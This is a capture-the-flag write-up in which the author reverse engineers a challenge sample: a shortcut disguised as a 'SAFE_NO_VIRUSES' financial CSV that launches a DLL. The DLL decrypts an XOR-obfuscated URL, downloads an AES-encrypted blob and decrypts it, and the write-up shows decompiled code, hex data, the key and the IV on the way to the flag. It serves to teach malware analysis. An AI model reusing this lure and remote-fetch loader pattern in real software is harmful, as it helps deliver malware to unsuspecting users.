 # Crab Rave
## My biologist friend told me that everything eventually evolves into a crab-like form. I don't know if that's true but I guess malware authors got a head start on that evolution. To save you some time, I went ahead and found you the 10 hour extended version of Crab Rave on YouTube (https://www.youtube.com/watch?v=-50NdPawLVY). You'll need it.

## So, here's the deal. This one is tough, so we're giving you a "Choose Your Own Adventure" challenge. Are you super confident with reverse engineering? Try crab_rave_harder.7z. Not so confident with RE? We gave you crab_rave_easier.7z.

Two files are included with this challenge

---

> Since I'm newbie with reverse engineering I put this as a disclaimer, I'm doing my best writing this but there could be errors, not in the methodology but in the explanations... That's why I also chose the "easy" one which is... Not so easy uh.


# File analysis

After unzipping, I found 2 files. 

![Alt text](image.png)

My guess is that the first one is a trigger for the second one. 

Using `LnkParser3` I retrieve the data from the lnk file :

```
──(kali㉿kali)-[~/.local/bin]
└─$ ./lnkparse /home/kali/Desktop/crab_rave_easier/company_financial_report_SAFE_NO_VIRUSES.csv.lnk
```

The output is quite big so I just put the interesting info:

![Alt text](image-1.png)

My guess was correct : It just run the dll with starting point DLLMain.


# DLL Decompilation

Using GHIDRA, I feed him the dll and find a huge collection of functions etc... I go to DLLMain.

## DLLMain

```
undefined8 DLLMain(void)

{
                    /* 0xb4f0  1  DLLMain */
  NtCheckOSArchitecture();
  return 0;
}
```

Leads me to `NtCheckOSArchitecture();`

## NtCheckOSArchitecture();

The function is huge (>600 lines). I suspect a lot of obfuscation and useless lines here so I just read it quickly to find interesting things. I found `InjectFlag()` at line 572 which is very sus to me.

## InjectFlag();

`InjectFlag()` is also very huge (400 lines). Looking at it I see some blocks that are interesting :

### Line 130
```c   
litcrypt_internal::decrypt_bytes
            (&local_308,&DAT_103cd840,0x89,
             (byte *)"-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-r",0x42);
             reqwest::blocking::get(&local_228,URL,local_2f8); 
```
Looking at the function `decrypt_bytes` I see some special lines here

![Alt text](image-2.png)

Googling a bit I find out it's a XOR function with `-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-rr5-r` as key.

The data to be XOR'ed by this function are stored inside `&DAT_103cd840`. Looking at it I can get the hex datas and extract them.

`45 06 06 45 5e 48 5d 1a 4a 1b 01 41 03 15 1b 41 45 07 10 40 5e 17 00 56 42 1c 06 50 43 06 5c 56 42 1f 5d 7d 58 01 19 4c 65 13 11 5e 5e 5d 4a 56 48 11 17 0d 1a 4a 14 51 48 44 43 00 48 14 4a 02 1a 42 1d 47 4b 51 15 4a 40 04 1c 10 40 50 02 00 13 42 02 13 10 56 4c 14 47 0c 1f 42 13 01 1d 4a 46 06 15 47 43 50 48 11 47 00 1d 16 43 51 4e 13 4b 02 48 4b 46 01 19 13 11 02 18 5d 15 5c 5e 06 14 5c 41 17 1c 5c 06 4d 59 00 00 00 00 00 00 00`

If we remove the null bytes I manage to decipher this and get a web link!


![Alt text](gWNfKejbAi.png)

https://gist.githubusercontent.com/HuskyHacks/8cece878fde615ef8770059d88211b2e/raw/abcaf5920a40843851eec550d1dca97e9444ac75/gistfile1.txt

At this point I can confirm I'm on the right path because it leads to the challenge creator's github.

I cannot use the content from the link but it'll be useful in a few minutes. (note: It is base64 encoded)

`o2WB/eHh3s+SxgR4QUjE9f0yAt4C16oHZvaclKlmBo4K1bsVSbVS2fjxjao/YVUGv7v7Om5xkDjXxARjF6AZalN6pENSgVBQIrYfMq+VeBwwR1whFWRGIC+qulG6HDYmfZt6Va4iljyljxbSnZMrxQwWUXJDhEju2iVzsa1l6nFzoHWO+5+pDV8+sLn3P9jhfZE7qLKVOt7Lm/stSBWZDgzuvqpZziBYo5EumdrISYvWkMm5T2ZD7iRSQaJ3Hr9LUd0nOnfVLW2CyLNmqAM/BKc0f5A9YAoGISmymjc+camULpCiS4WoI8CiyBKOXr5K3CQgx0O9nOn8aS2IU7RreOopH08EGON6DBzkIwbqpC9o28A+wNZsc6cJC0AplIUAafdONBlg/NmcSmkOnPOAR/qhMGMlZKtzEqi4RZDzOfo=`



### Line 185

```c
libaes::Cipher::new_256
                  (&local_228,
                   "rAcbUUWWNFlqMbruiYOIsAyVQHS78orvMoJ8C6O4D3asAApBBase64 decoding error: ");
        libaes::Cipher::cbc_decrypt
                  (&local_3d8,&local_228,"MoJ8C6O4D3asAApBBase64 decoding error: ",0x10,
                   pppppppuVar10,pppppppuVar9);
```

Looking at the 2 functions here I get these informations :

- ``Base64 decoding error`` is misleading 
- libaes is just AES encryption
- Second function tells me it is AES-CBC exactly


For AES-CBC decryption we need a key and a vector. It seems like the 2 Strings here are what I need.

Putting all these into CyberChef I managed to get the flag :)

![Alt text](image-3.png)

